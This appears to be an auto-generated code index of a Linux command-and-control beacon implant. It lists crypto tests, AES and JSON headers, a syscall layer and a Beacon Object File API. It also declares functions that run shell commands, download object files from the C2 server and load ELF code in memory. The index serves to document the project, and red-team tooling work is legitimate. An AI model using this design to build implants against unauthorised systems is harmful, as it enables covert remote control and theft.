- `test_deterministic_derivation` (line 165) `static void test_deterministic_derivation(void **state)` - *fclose(f); bsb_config_t cfg; char err[512]; int r = bsb_config_load("/tmp/test_key_sep.json", &cfg, err, sizeof(err)); assert_int_equal(r, 0); /* Verify encryption_key != hmac_key (key separation) assert_memory_not_equal(cfg.crypto.encryption_key, cfg.crypto.hmac_key, BSB_AES_KEY_BYTES); unlink("/tmp/test_key_sep.json"); } /* Test that same master_key produces same derived keys (deterministic)*
- `test_crypto_struct_has_new_fields` (line 200) `static void test_crypto_struct_has_new_fields(void **state)` - *int r1 = bsb_config_load("/tmp/test_det1.json", &cfg1, err, sizeof(err)); int r2 = bsb_config_load("/tmp/test_det2.json", &cfg2, err, sizeof(err)); assert_int_equal(r1, 0); assert_int_equal(r2, 0); /* Derived keys should be identical assert_memory_equal(cfg1.crypto.encryption_key, cfg2.crypto.encryption_key, BSB_AES_KEY_BYTES); assert_memory_equal(cfg1.crypto.hmac_key, cfg2.crypto.hmac_key, BSB_AES_KEY_BYTES); unlink("/tmp/test_det1.json"); unlink("/tmp/test_det2.json"); } /* Test that crypto struct has new fields*
- `assert_memory_equal` (line 207) `assert_memory_equal(crypto.master_key, (uint8_t[BSB_AES_KEY_BYTES])`
- `assert_memory_equal` (line 208) `assert_memory_equal(crypto.encryption_key, (uint8_t[BSB_AES_KEY_BYTES])`
- `assert_memory_equal` (line 209) `assert_memory_equal(crypto.hmac_key, (uint8_t[BSB_AES_KEY_BYTES])`
- `main` (line 212) `int main(void)`

#### `test_iv_generation_c.c`
**Path:** `tests/test_iv_generation_c.c`

**Functions:**
- `test_generate_secure_iv_success` (line 19) `static void test_generate_secure_iv_success(void **state)` - *#include <stdarg.h> #include <stddef.h> #include <setjmp.h> #include <cmocka.h> #include <stdbool.h> #include <string.h> #include <stdlib.h> #include <stdio.h> #include <unistd.h> /* Include the beacon_common header #include "beacon_common.h" /* Test that bsb_generate_secure_iv returns 1 on success*
- `test_generate_secure_iv_different_each_call` (line 31) `static void test_generate_secure_iv_different_each_call(void **state)` - */* Test that bsb_generate_secure_iv returns 1 on success static void test_generate_secure_iv_success(void **state) { (void)state; unsigned char iv[16]; int result = bsb_generate_secure_iv(iv); assert_int_equal(result, 1); /* Verify IV is not all zeros (extremely unlikely for secure RNG) uint8_t zeros[16] = {0}; assert_memory_not_equal(iv, zeros, 16); } /* Test that bsb_generate_secure_iv produces different IVs on each call*
- `test_generate_secure_iv_null_input` (line 47) `static void test_generate_secure_iv_null_input(void **state)` - *unsigned char iv1[16]; unsigned char iv2[16]; int result1 = bsb_generate_secure_iv(iv1); int result2 = bsb_generate_secure_iv(iv2); assert_int_equal(result1, 1); assert_int_equal(result2, 1); /* Two calls should produce different IVs (with extremely high probability) assert_memory_not_equal(iv1, iv2, 16); } /* Test that bsb_generate_secure_iv returns 0 on NULL input*
- `test_generate_secure_iv_length` (line 54) `static void test_generate_secure_iv_length(void **state)` - *assert_int_equal(result2, 1); /* Two calls should produce different IVs (with extremely high probability) assert_memory_not_equal(iv1, iv2, 16); } /* Test that bsb_generate_secure_iv returns 0 on NULL input static void test_generate_secure_iv_null_input(void **state) { (void)state; int result = bsb_generate_secure_iv(NULL); assert_int_equal(result, 0); } /* Test that IV is exactly 16 bytes*
- `test_beacon_common_has_iv_function` (line 71) `static void test_beacon_common_has_iv_function(void **state)` - *int result = bsb_generate_secure_iv(iv); assert_int_equal(result, 1); /* The function doesn't return the length, but we know it writes 16 bytes /* Verify by checking that all 16 bytes were written (not all zeros) int non_zero_count = 0; for (int i = 0; i < 16; i++) { if (iv[i] != 0) non_zero_count++; } /* At least some bytes should be non-zero (probability of all zeros is negligible) assert_true(non_zero_count > 0); } /* Test that beacon_common.h has the function declaration*
- `main` (line 78) `int main(void)`
- `bsb_generate_secure_iv` (line 74) `extern int bsb_generate_secure_iv(unsigned char *iv_out);` - */* The function doesn't return the length, but we know it writes 16 bytes /* Verify by checking that all 16 bytes were written (not all zeros) int non_zero_count = 0; for (int i = 0; i < 16; i++) { if (iv[i] != 0) non_zero_count++; } /* At least some bytes should be non-zero (probability of all zeros is negligible) assert_true(non_zero_count > 0); } /* Test that beacon_common.h has the function declaration static void test_beacon_common_has_iv_function(void **state) { (void)state; /* This test compiles only if the declaration exists*

### H (31 files)

#### `aes.h`
**Path:** `aes.h`
**File Doc:** *#define the macros below to 1/0 to enable/disable the mode of operation.*

**Imported by:** `aes.c`, `aes_cfb.c`, `beacon3.c`, `beacon_common.c`

**Functions:**
- `AES_init_ctx` (line 41) `void AES_init_ctx(struct AES_ctx *ctx, const uint8_t *key);`
- `AES_init_ctx_iv` (line 43) `void AES_init_ctx_iv(struct AES_ctx *ctx, const uint8_t *key, const uint8_t *iv);` - *if (defined(CBC) && (CBC == 1)) || (defined(CTR) && (CTR == 1))*
- `AES_ctx_set_iv` (line 44) `void AES_ctx_set_iv(struct AES_ctx *ctx, const uint8_t *iv);`
- `AES_ECB_encrypt` (line 48) `void AES_ECB_encrypt(const struct AES_ctx *ctx, uint8_t *buf);` - *if defined(ECB) && (ECB == 1)*
- `AES_ECB_decrypt` (line 49) `void AES_ECB_decrypt(const struct AES_ctx *ctx, uint8_t *buf);`
- `AES_CBC_encrypt_buffer` (line 53) `void AES_CBC_encrypt_buffer(struct AES_ctx *ctx, uint8_t *buf, size_t length);` - *if defined(CBC) && (CBC == 1)*
- `AES_CBC_decrypt_buffer` (line 54) `void AES_CBC_decrypt_buffer(struct AES_ctx *ctx, uint8_t *buf, size_t length);`
- `AES_CTR_xcrypt_buffer` (line 58) `void AES_CTR_xcrypt_buffer(struct AES_ctx *ctx, uint8_t *buf, size_t length);` - *if defined(CTR) && (CTR == 1)*

**Macros:**
- `_AES_H_` (line 2) `#define _AES_H_`
- `CBC` (line 9) `#define CBC`
- `ECB` (line 12) `#define ECB`
- `CTR` (line 15) `#define CTR`
- `AES256` (line 18) `#define AES256`
- `AES_BLOCKLEN` (line 20) `#define AES_BLOCKLEN`
- `AES_KEYLEN` (line 23) `#define AES_KEYLEN`
- `AES_keyExpSize` (line 24) `#define AES_keyExpSize`
- `AES_KEYLEN` (line 26) `#define AES_KEYLEN`
- `AES_keyExpSize` (line 27) `#define AES_keyExpSize`
- `AES_KEYLEN` (line 29) `#define AES_KEYLEN`
- `AES_keyExpSize` (line 30) `#define AES_keyExpSize`

**Structs:**
- `AES_ctx` (line 33)

#### `beacon.h`
**Path:** `beacon.h`
**File Doc:** *beacon_api.h   Tipos de callback  Estructura para parsing de datos (opcional, para comandos complejos)*

**Imported by:** `beacon3.c`, `beacon5.c`, `beacon6.c`, `beacon_p2p.c`, `bof.c`

**Functions:**
- `BeaconDataParse` (line 22) `void BeaconDataParse(datap *parser, char *buffer, int size);` - *=== API para BOFs ===*
- `BeaconDataPtr` (line 23) `char *BeaconDataPtr(datap *parser, int size);`
- `BeaconDataInt` (line 24) `int BeaconDataInt(datap *parser);`
- `BeaconDataShort` (line 25) `short BeaconDataShort(datap *parser);`
- `BeaconDataLength` (line 26) `int BeaconDataLength(datap *parser);`
- `BeaconDataExtract` (line 27) `char *BeaconDataExtract(datap *parser, int *size);`
- `BeaconPrintf` (line 28) `void BeaconPrintf(int type, const char *fmt, ...);`
- `BeaconOutput` (line 29) `void BeaconOutput(int type, const char *data, int len);`

**Macros:**
- `BEACON_API_H` (line 3) `#define BEACON_API_H`
- `CALLBACK_OUTPUT` (line 9) `#define CALLBACK_OUTPUT`
- `CALLBACK_ERROR` (line 10) `#define CALLBACK_ERROR`
- `CALLBACK_OUTPUT_OEM` (line 11) `#define CALLBACK_OUTPUT_OEM`

**Structs:**
- `datap` (line 14) - *Estructura para parsing de datos (opcional, para comandos complejos)*

#### `beacon_api.h`
**Path:** `bof/include/beacon_api.h`

**Functions:**
- `go` (line 10) `* * BOFs MUST export a function with this exact signature: * * void go(char *args, int alen);`
- `BeaconDataParse` (line 37) `void BeaconDataParse(datap *parser, char *buffer, int size);`
- `BeaconDataPtr` (line 38) `char *BeaconDataPtr(datap *parser, int size);`
- `BeaconDataInt` (line 39) `int BeaconDataInt(datap *parser);`
- `BeaconDataShort` (line 40) `short BeaconDataShort(datap *parser);`
- `BeaconDataLength` (line 41) `int BeaconDataLength(datap *parser);`
- `BeaconDataExtract` (line 42) `char *BeaconDataExtract(datap *parser, int *size);`
- `buffer` (line 45) `* takes a raw byte buffer (len may be 0 for strlen-style strings * but the buffer must still be NUL-terminated). */ void BeaconPrintf(int type, const char *fmt, ...);`
- `BeaconOutput` (line 48) `void BeaconOutput(int type, const char *data, int len);`

**Macros:**
- `BSB_BOF_BEACON_API_H` (line 17) `#define BSB_BOF_BEACON_API_H`
- `CALLBACK_OUTPUT` (line 24) `#define CALLBACK_OUTPUT`
- `CALLBACK_ERROR` (line 25) `#define CALLBACK_ERROR`
- `CALLBACK_OUTPUT_OEM` (line 26) `#define CALLBACK_OUTPUT_OEM`

**Structs:**
- `datap` (line 30) - *Argument parser. BOFs that want to read structured args fill * one of these in via BeaconDataParse then pull fields out.*

#### `syscalls.h`
**Path:** `bof/include/syscalls.h`

**Functions:**
- `syscall0` (line 49) `static inline long syscall0(long n)`
- `syscall1` (line 56) `static inline long syscall1(long n, long a1)`
- `syscall2` (line 63) `static inline long syscall2(long n, long a1, long a2)`
- `syscall3` (line 70) `static inline long syscall3(long n, long a1, long a2, long a3)`
- `syscall4` (line 80) `static inline long syscall4(long n, long a1, long a2, long a3, long a4)`
- `bsf_strlen` (line 92) `static inline size_t bsf_strlen(const char *s)` - *} static inline long syscall4(long n, long a1, long a2, long a3, long a4) { long ret; register long r10 __asm__("r10") = a4; __asm__ volatile("syscall" : "=a"(ret) : "a"(n), "D"(a1), "S"(a2), "d"(a3), "r"(r10) : "rcx", "r11", "memory"); return ret; } /* strlen - libc is not linked.*
- `bsf_strcmp` (line 101) `static inline int bsf_strcmp(const char *a, const char *b)` - *: "rcx", "r11", "memory"); return ret; } /* strlen - libc is not linked. static inline size_t bsf_strlen(const char *s) { const char *p = s; while (*p) p++; return (size_t)(p - s); } /* strcmp - libc is not linked. Returns 0 on match.*
- `bsf_memcmp` (line 112) `static inline int bsf_memcmp(const void *p1, const void *p2, size_t n)` - *} /* strcmp - libc is not linked. Returns 0 on match. static inline int bsf_strcmp(const char *a, const char *b) { while (*a && (*a == *b)) { a++; b++; } return *(const unsigned char *)a - *(const unsigned char *)b; } /* memcmp - libc is not linked.*

**Macros:**
- `BSB_BOF_SYSCALLS_H` (line 12) `#define BSB_BOF_SYSCALLS_H`
- `SYS_read` (line 17) `#define SYS_read`
- `SYS_write` (line 18) `#define SYS_write`
- `SYS_open` (line 19) `#define SYS_open`
- `SYS_close` (line 20) `#define SYS_close`
- `SYS_stat` (line 21) `#define SYS_stat`
- `SYS_fstat` (line 22) `#define SYS_fstat`
- `SYS_lseek` (line 23) `#define SYS_lseek`
- `SYS_mmap` (line 24) `#define SYS_mmap`
- `SYS_munmap` (line 25) `#define SYS_munmap`
- `SYS_brk` (line 26) `#define SYS_brk`
- `SYS_ioctl` (line 27) `#define SYS_ioctl`
- `SYS_access` (line 28) `#define SYS_access`
- `SYS_pipe` (line 29) `#define SYS_pipe`
- `SYS_dup2` (line 30) `#define SYS_dup2`
- `SYS_fork` (line 31) `#define SYS_fork`
- `SYS_execve` (line 32) `#define SYS_execve`
- `SYS_exit` (line 33) `#define SYS_exit`
- `SYS_wait4` (line 34) `#define SYS_wait4`
- `SYS_getuid` (line 35) `#define SYS_getuid`
- `SYS_getgid` (line 36) `#define SYS_getgid`
- `SYS_geteuid` (line 37) `#define SYS_geteuid`
- `SYS_getegid` (line 38) `#define SYS_getegid`
- `SYS_getpid` (line 39) `#define SYS_getpid`
- `SYS_getppid` (line 40) `#define SYS_getppid`
- `SYS_getpwnam_r` (line 41) `#define SYS_getpwnam_r`
- `SYS_getpwuid_r` (line 42) `#define SYS_getpwuid_r`
- `SYS_openat` (line 43) `#define SYS_openat`
- `SYS_clone` (line 44) `#define SYS_clone`
- `AT_FDCWD` (line 47) `#define AT_FDCWD`

#### `cJSON.h`
**Path:** `cJSON.h`

**Imported by:** `beacon.c`, `beacon_common.c`, `cJSON.c`

**Functions:**
- `cJSON_Parse` (line 152) `* cJSON_Parse (with cJSON_Delete) and cJSON_Print (with stdlib free, cJSON_Hooks.free_fn, or * cJSON_free as appropriate). The exception is cJSON_PrintPreallocated, where the caller has * full respons`
- `cJSON_GetErrorPtr` (line 161) `* a pointer to the error so will match cJSON_GetErrorPtr(). */ CJSON_PUBLIC(cJSON *) cJSON_ParseWithOpts(const char *value, const char **return_parse_end, cJSON_bool require_null_terminated);`
- `that` (line 247) `* that (item->type & cJSON_StringIsConst) is zero before writing to `item->string` */ CJSON_PUBLIC(cJSON_bool) cJSON_AddItemToObjectCS(cJSON *object, const char *string, cJSON *item);`
- `sensitive` (line 286) `* sensitive (1) or case insensitive (0) */ CJSON_PUBLIC(cJSON_bool) cJSON_Compare(const cJSON *const a, const cJSON *const b, const cJSON_bool case_sensitive);`

**Macros:**
- `cJSON__h` (line 24) `#define cJSON__h`
- `__WINDOWS__` (line 33) `#define __WINDOWS__`
- `CJSON_CDECL` (line 49) `#define CJSON_CDECL`
- `CJSON_STDCALL` (line 50) `#define CJSON_STDCALL`
- `CJSON_EXPORT_SYMBOLS` (line 54) `#define CJSON_EXPORT_SYMBOLS`
- `CJSON_PUBLIC` (line 58) `#define CJSON_PUBLIC(type)`
- `CJSON_PUBLIC` (line 60) `#define CJSON_PUBLIC(type)`
- `CJSON_PUBLIC` (line 62) `#define CJSON_PUBLIC(type)`
- `CJSON_CDECL` (line 65) `#define CJSON_CDECL`
- `CJSON_STDCALL` (line 66) `#define CJSON_STDCALL`
- `CJSON_PUBLIC` (line 70) `#define CJSON_PUBLIC(type)`
- `CJSON_PUBLIC` (line 72) `#define CJSON_PUBLIC(type)`
- `CJSON_VERSION_MAJOR` (line 77) `#define CJSON_VERSION_MAJOR`
- `CJSON_VERSION_MINOR` (line 78) `#define CJSON_VERSION_MINOR`
- `CJSON_VERSION_PATCH` (line 79) `#define CJSON_VERSION_PATCH`
- `cJSON_Invalid` (line 84) `#define cJSON_Invalid`
- `cJSON_False` (line 85) `#define cJSON_False`
- `cJSON_True` (line 86) `#define cJSON_True`
- `cJSON_NULL` (line 87) `#define cJSON_NULL`
- `cJSON_Number` (line 88) `#define cJSON_Number`
- `cJSON_String` (line 89) `#define cJSON_String`
- `cJSON_Array` (line 90) `#define cJSON_Array`
- `cJSON_Object` (line 91) `#define cJSON_Object`
- `cJSON_Raw` (line 92) `#define cJSON_Raw`
- `cJSON_IsReference` (line 94) `#define cJSON_IsReference`
- `cJSON_StringIsConst` (line 95) `#define cJSON_StringIsConst`
- `CJSON_NESTING_LIMIT` (line 136) `#define CJSON_NESTING_LIMIT`
- `CJSON_CIRCULAR_LIMIT` (line 142) `#define CJSON_CIRCULAR_LIMIT`
- `cJSON_SetIntValue` (line 312) `#define cJSON_SetIntValue(object, number)`
- `cJSON_SetNumberValue` (line 316) `#define cJSON_SetNumberValue(object, number)`
- `cJSON_SetBoolValue` (line 324) `#define cJSON_SetBoolValue(object, boolValue)`
- `cJSON_ArrayForEach` (line 331) `#define cJSON_ArrayForEach(element, array)`

**Structs:**
- `cJSON` (line 98) - *#define cJSON_Invalid (0) #define cJSON_False (1 << 0) #define cJSON_True (1 << 1) #define cJSON_NULL (1 << 2) #define cJSON_Number (1 << 3) #define cJSON_String (1 << 4) #define cJSON_Array (1 << 5) #define cJSON_Object (1 << 6) #define cJSON_Raw (1 << 7) /* raw json #define cJSON_IsReference 256 #define cJSON_StringIsConst 512 /* The cJSON structure:*
- `cJSON_Hooks` (line 123)

**Type_Aliases:**
- `cJSON_bool` (line 130) `typedef int cJSON_bool;`

**Variables:**
- `next` (line 27) `extern "C" { #endif #if !defined(__WINDOWS__) && \ (defined(WIN32) || defined(WIN64) || defined(_MSC_VER) || defined(_WIN32)) #define __WINDOWS__ #endif #ifdef __WINDOWS__ /* When compiling for window` - *ifdef __cplusplus*

#### `aes.h`
**Path:** `include/aes.h`
**File Doc:** *#define the macros below to 1/0 to enable/disable the mode of operation.*

**Functions:**
- `AES_init_ctx` (line 41) `void AES_init_ctx(struct AES_ctx *ctx, const uint8_t *key);`
- `AES_init_ctx_iv` (line 43) `void AES_init_ctx_iv(struct AES_ctx *ctx, const uint8_t *key, const uint8_t *iv);` - *if (defined(CBC) && (CBC == 1)) || (defined(CTR) && (CTR == 1))*
- `AES_ctx_set_iv` (line 44) `void AES_ctx_set_iv(struct AES_ctx *ctx, const uint8_t *iv);`
- `AES_ECB_encrypt` (line 48) `void AES_ECB_encrypt(const struct AES_ctx *ctx, uint8_t *buf);` - *if defined(ECB) && (ECB == 1)*
- `AES_ECB_decrypt` (line 49) `void AES_ECB_decrypt(const struct AES_ctx *ctx, uint8_t *buf);`
- `AES_CBC_encrypt_buffer` (line 53) `void AES_CBC_encrypt_buffer(struct AES_ctx *ctx, uint8_t *buf, size_t length);` - *if defined(CBC) && (CBC == 1)*
- `AES_CBC_decrypt_buffer` (line 54) `void AES_CBC_decrypt_buffer(struct AES_ctx *ctx, uint8_t *buf, size_t length);`
- `AES_CTR_xcrypt_buffer` (line 58) `void AES_CTR_xcrypt_buffer(struct AES_ctx *ctx, uint8_t *buf, size_t length);` - *if defined(CTR) && (CTR == 1)*

**Macros:**
- `_AES_H_` (line 2) `#define _AES_H_`
- `CBC` (line 9) `#define CBC`
- `ECB` (line 12) `#define ECB`
- `CTR` (line 15) `#define CTR`
- `AES256` (line 18) `#define AES256`
- `AES_BLOCKLEN` (line 20) `#define AES_BLOCKLEN`
- `AES_KEYLEN` (line 23) `#define AES_KEYLEN`
- `AES_keyExpSize` (line 24) `#define AES_keyExpSize`
- `AES_KEYLEN` (line 26) `#define AES_KEYLEN`
- `AES_keyExpSize` (line 27) `#define AES_keyExpSize`
- `AES_KEYLEN` (line 29) `#define AES_KEYLEN`
- `AES_keyExpSize` (line 30) `#define AES_keyExpSize`

**Structs:**
- `AES_ctx` (line 33)

#### `aes_cfb.h`
**Path:** `include/aes_cfb.h`

**Functions:**
- `aes256_cfb_encrypt` (line 9) `unsigned char *aes256_cfb_encrypt(const unsigned char *key, const unsigned char *iv, const unsigned char *plaintext, size_t len, int *out_len);`
- `aes256_cfb_decrypt` (line 11) `unsigned char *aes256_cfb_decrypt(const unsigned char *key, const unsigned char *iv, const unsigned char *ciphertext, size_t len, int *out_len);`

**Macros:**
- `BSB_AES_CFB_H` (line 5) `#define BSB_AES_CFB_H`

#### `async_i_o_for_beacon.h`
**Path:** `include/async_i_o_for_beacon.h`

**Functions:**
- `async_i_o_for_beacon_process` (line 4) `bool async_i_o_for_beacon_process(void);`

**Macros:**
- `ASYNC_I_O_FOR_BEACON_H` (line 2) `#define ASYNC_I_O_FOR_BEACON_H`

#### `beacon.h`
**Path:** `include/beacon.h`
**File Doc:** *beacon_api.h   Tipos de callback  Estructura para parsing de datos (opcional, para comandos complejos)*

**Functions:**
- `BeaconDataParse` (line 22) `void BeaconDataParse(datap *parser, char *buffer, int size);` - *=== API para BOFs ===*
- `BeaconDataPtr` (line 23) `char *BeaconDataPtr(datap *parser, int size);`
- `BeaconDataInt` (line 24) `int BeaconDataInt(datap *parser);`
- `BeaconDataShort` (line 25) `short BeaconDataShort(datap *parser);`
- `BeaconDataLength` (line 26) `int BeaconDataLength(datap *parser);`
- `BeaconDataExtract` (line 27) `char *BeaconDataExtract(datap *parser, int *size);`
- `BeaconPrintf` (line 28) `void BeaconPrintf(int type, const char *fmt, ...);`
- `BeaconOutput` (line 29) `void BeaconOutput(int type, const char *data, int len);`

**Macros:**
- `BEACON_API_H` (line 3) `#define BEACON_API_H`
- `CALLBACK_OUTPUT` (line 9) `#define CALLBACK_OUTPUT`
- `CALLBACK_ERROR` (line 10) `#define CALLBACK_ERROR`
- `CALLBACK_OUTPUT_OEM` (line 11) `#define CALLBACK_OUTPUT_OEM`

**Structs:**
- `datap` (line 14) - *Estructura para parsing de datos (opcional, para comandos complejos)*

#### `beacon_common.c_extraction.h`
**Path:** `include/beacon_common.c_extraction.h`

**Macros:**
- `BEACON_COMMON` (line 2) `#define BEACON_COMMON`

#### `beacon_common.h`
**Path:** `include/beacon_common.h`

**Functions:**
- `bsb_output_init` (line 96) `int bsb_output_init(size_t capacity);` - *Initialize the output buffer. Call once at beacon startup. * Returns 0 on success, -1 on allocation failure.*
- `bsb_output_cleanup` (line 99) `void bsb_output_cleanup(void);` - *Initialize the output buffer. Call once at beacon startup. * Returns 0 on success, -1 on allocation failure. int bsb_output_init(size_t capacity); /* Free the output buffer. Call at beacon shutdown.*
- `bsb_output_reset` (line 102) `void bsb_output_reset(void);` - *Initialize the output buffer. Call once at beacon startup. * Returns 0 on success, -1 on allocation failure. int bsb_output_init(size_t capacity); /* Free the output buffer. Call at beacon shutdown. void bsb_output_cleanup(void); /* Reset the output buffer for a new BOF execution.*
- `BeaconPrintf` (line 105) `void BeaconPrintf(int type, const char *fmt, ...);` - *Initialize the output buffer. Call once at beacon startup. * Returns 0 on success, -1 on allocation failure. int bsb_output_init(size_t capacity); /* Free the output buffer. Call at beacon shutdown. void bsb_output_cleanup(void); /* Reset the output buffer for a new BOF execution. void bsb_output_reset(void); /* Beacon API: printf-style output capture (called by BOFs).*
- `BeaconOutput` (line 108) `void BeaconOutput(int type, const char *data, int len);` - *Initialize the output buffer. Call once at beacon startup. * Returns 0 on success, -1 on allocation failure. int bsb_output_init(size_t capacity); /* Free the output buffer. Call at beacon shutdown. void bsb_output_cleanup(void); /* Reset the output buffer for a new BOF execution. void bsb_output_reset(void); /* Beacon API: printf-style output capture (called by BOFs). void BeaconPrintf(int type, const char *fmt, ...); /* Beacon API: raw output capture (called by BOFs).*
- `create_trampoline` (line 111) `void *create_trampoline(void *target, void *near_hint);` - */* Free the output buffer. Call at beacon shutdown. void bsb_output_cleanup(void); /* Reset the output buffer for a new BOF execution. void bsb_output_reset(void); /* Beacon API: printf-style output capture (called by BOFs). void BeaconPrintf(int type, const char *fmt, ...); /* Beacon API: raw output capture (called by BOFs). void BeaconOutput(int type, const char *data, int len); /* Trampoline management*
- `cleanup_trampolines` (line 112) `void cleanup_trampolines(void);`
- `get_or_create_trampoline` (line 113) `void *get_or_create_trampoline(void *target, void *near_hint);`
- `https_request` (line 119) `http_response_t https_request(const bsb_config_t *cfg, const char *url, const char *method, const char *post_data);` - *HTTP client: performs GET or POST request. Returns a struct with the response body, length, and status code. On error, data is NULL and len is 0. The caller must free(data). * Uses config for timeouts, TLS verification, and user-agent.*
- `base64_encode` (line 123) `char *base64_encode(const unsigned char *input, int len);` - *HTTP client: performs GET or POST request. Returns a struct with the response body, length, and status code. On error, data is NULL and len is 0. The caller must free(data). * Uses config for timeouts, TLS verification, and user-agent. http_response_t https_request(const bsb_config_t *cfg, const char *url, const char *method, const char *post_data); /* Base64 encode/decode (OpenSSL BIO-based)*
- `base64_decode` (line 124) `unsigned char *base64_decode(const char *input, int *len);`
- `url_encode` (line 127) `char *url_encode(const char *in, size_t in_len, size_t *out_len);` - *HTTP client: performs GET or POST request. Returns a struct with the response body, length, and status code. On error, data is NULL and len is 0. The caller must free(data). * Uses config for timeouts, TLS verification, and user-agent. http_response_t https_request(const bsb_config_t *cfg, const char *url, const char *method, const char *post_data); /* Base64 encode/decode (OpenSSL BIO-based) char *base64_encode(const unsigned char *input, int len); unsigned char *base64_decode(const char *input, int *len); /* URL percent-encoding (RFC 3986 unreserved set)*
- `bsb_generate_secure_iv` (line 131) `int bsb_generate_secure_iv(unsigned char *iv_out);` - *Secure IV generation: tries RAND_bytes, falls back to getrandom(2). * Returns 1 on success, 0 on failure (fail-closed).*
- `aes256_cfb_encrypt` (line 134) `unsigned char *aes256_cfb_encrypt(const unsigned char *key, const unsigned char *iv, const unsigned char *plaintext, size_t len, int *out_len);` - *Secure IV generation: tries RAND_bytes, falls back to getrandom(2). * Returns 1 on success, 0 on failure (fail-closed). int bsb_generate_secure_iv(unsigned char *iv_out); /* AES-256-CFB encrypt/decrypt (standalone, no OpenSSL dependency)*
- `aes256_cfb_decrypt` (line 136) `unsigned char *aes256_cfb_decrypt(const unsigned char *key, const unsigned char *iv, const unsigned char *ciphertext, size_t len, int *out_len);`
- `aes256_cfb_encrypt_replay` (line 142) `unsigned char *aes256_cfb_encrypt_replay(const unsigned char *key, const unsigned char *iv, const unsigned char *plaintext, size_t len, uint64_t counter, uint64_t timestamp, int *out_len);` - *Replay-protected encryption: prepends counter (8 bytes LE) and timestamp (8 bytes LE) to plaintext before AES-CFB encryption. Returns malloc'd buffer with IV + ciphertext. * Caller must free the returned buffer.*
- `aes256_cfb_decrypt_replay` (line 150) `unsigned char *aes256_cfb_decrypt_replay(const unsigned char *key, const unsigned char *iv, const unsigned char *ciphertext, size_t len, uint64_t *out_counter, uint64_t *out_timestamp, int *out_len);` - *Replay-protected decryption: decrypts ciphertext, extracts counter and timestamp. Returns malloc'd plaintext (without counter/timestamp), sets *out_counter and *out_timestamp. * Returns NULL on decryption failure.*
- `buffer` (line 156) `* buffer (caller frees). On error, returns NULL. */ char *exec_cmd(const char *cmd, int *out_len);`
- `RunELF` (line 164) `int RunELF(const char *functionname, unsigned char *elf_data, uint32_t filesize, unsigned char *argumentdata, int argumentSize);` - *ELF BOF loader. Loads a position-independent ELF object into memory, resolves symbols, applies relocations, and calls the entry function in a forked child process for crash isolation. Returns 0 on success, -1 on error. BOF output is captured * into g_beacon_output.*
- `download_bof` (line 169) `unsigned char *download_bof(const bsb_config_t *cfg, const char *url, size_t *out_size);` - *Download a BOF from the C2 server. Returns malloc'd buffer * (caller frees). On error, sets *out_size to 0 and returns NULL.*
- `run_bof_and_capture` (line 173) `char *run_bof_and_capture(unsigned char *elf_data, uint32_t filesize, char *args, int arglen, int *out_len);` - *Execute a BOF and capture its output. Returns malloc'd string * (caller frees). On error or empty output, returns strdup("").*
- `get_local_ips` (line 178) `char *get_local_ips(void);` - *Get local IP addresses as a comma-separated string. Returns * malloc'd buffer (caller frees). Falls back to "127.0.0.1".*
- `bsb_backoff_init` (line 189) `void bsb_backoff_init(bsb_backoff_t *bo, int base, int max);`
- `bsb_backoff_next` (line 190) `int bsb_backoff_next(bsb_backoff_t *bo);`
- `bsb_backoff_reset` (line 191) `void bsb_backoff_reset(bsb_backoff_t *bo);`

**Macros:**
- `BEACON_COMMON_H` (line 13) `#define BEACON_COMMON_H`
- `_GNU_SOURCE` (line 15) `#define _GNU_SOURCE`
- `BSB_OUTPUT_BUFFER_DEFAULT` (line 26) `#define BSB_OUTPUT_BUFFER_DEFAULT`
- `BSB_OUTPUT_TRUNCATION_MARKER` (line 27) `#define BSB_OUTPUT_TRUNCATION_MARKER`

**Structs:**
- `http_response_t` (line 33) - *-- HTTP response wrapper --- https_request now returns a proper struct instead of the * broken full+8 pointer trick that leaked memory.*
- `Trampoline` (line 41) - *-- HTTP response wrapper --- https_request now returns a proper struct instead of the * broken full+8 pointer trick that leaked memory. typedef struct { char *data; /* response body (malloc'd, caller frees) size_t len; /* body length in bytes int status; /* HTTP status code (0 on error) } http_response_t; /* --- Trampoline (for position-independent BOF relocations) ---*
- `SymbolResolver` (line 51) - *int status; /* HTTP status code (0 on error) } http_response_t; /* --- Trampoline (for position-independent BOF relocations) --- typedef struct { void *addr; size_t size; } Trampoline; /* --- BOF function signature --- typedef void (*bof_func_t)(char *, int); /* --- Symbol resolver table entry ---*
- `TrampolineCache` (line 58) - *size_t size; } Trampoline; /* --- BOF function signature --- typedef void (*bof_func_t)(char *, int); /* --- Symbol resolver table entry --- typedef struct { const char *name; void **ptr; } SymbolResolver; /* --- Trampoline cache entry ---*
- `bsb_backoff_t` (line 182) - *Exponential backoff state. Initialize once, call bsb_backoff_next() * to get the next sleep duration. Automatically resets on success.*

**Variables:**
- `g_beacon_output` (line 65) `extern char *g_beacon_output;` - *typedef struct { const char *name; void **ptr; } SymbolResolver; /* --- Trampoline cache entry --- typedef struct { void *original; void *trampoline; } TrampolineCache; /* --- Global state (defined in beacon_common.c) ---*
- `g_printf_ptr` (line 68) `extern void *g_printf_ptr;` - *void **ptr; } SymbolResolver; /* --- Trampoline cache entry --- typedef struct { void *original; void *trampoline; } TrampolineCache; /* --- Global state (defined in beacon_common.c) --- extern char *g_beacon_output; /* Function pointers exposed to BOFs*
- `g_strlen_ptr` (line 69) `extern void *g_strlen_ptr;`
- `g_memcpy_ptr` (line 70) `extern void *g_memcpy_ptr;`
- `g_memset_ptr` (line 71) `extern void *g_memset_ptr;`
- `g_exit_ptr` (line 72) `extern void *g_exit_ptr;`
- `g_dlsym_ptr` (line 73) `extern void *g_dlsym_ptr;`
- `g_dlerror_ptr` (line 74) `extern void *g_dlerror_ptr;`
- `g_dlopen_ptr` (line 75) `extern void *g_dlopen_ptr;`
- `g_dlclose_ptr` (line 76) `extern void *g_dlclose_ptr;`
- `g_write_ptr` (line 77) `extern void *g_write_ptr;`
- `g_mmap_ptr` (line 78) `extern void *g_mmap_ptr;`
- `g_munmap_ptr` (line 79) `extern void *g_munmap_ptr;`
- `g_BeaconPrintf_ptr` (line 80) `extern void *g_BeaconPrintf_ptr;`
- `g_BeaconOutput_ptr` (line 81) `extern void *g_BeaconOutput_ptr;`
- `g_socket_ptr` (line 82) `extern void *g_socket_ptr;`
- `g_connect_ptr` (line 83) `extern void *g_connect_ptr;`
- `g_inet_addr_ptr` (line 84) `extern void *g_inet_addr_ptr;`
- `g_htons_ptr` (line 85) `extern void *g_htons_ptr;`
- `g_send_ptr` (line 86) `extern void *g_send_ptr;`
- `g_recv_ptr` (line 87) `extern void *g_recv_ptr;`
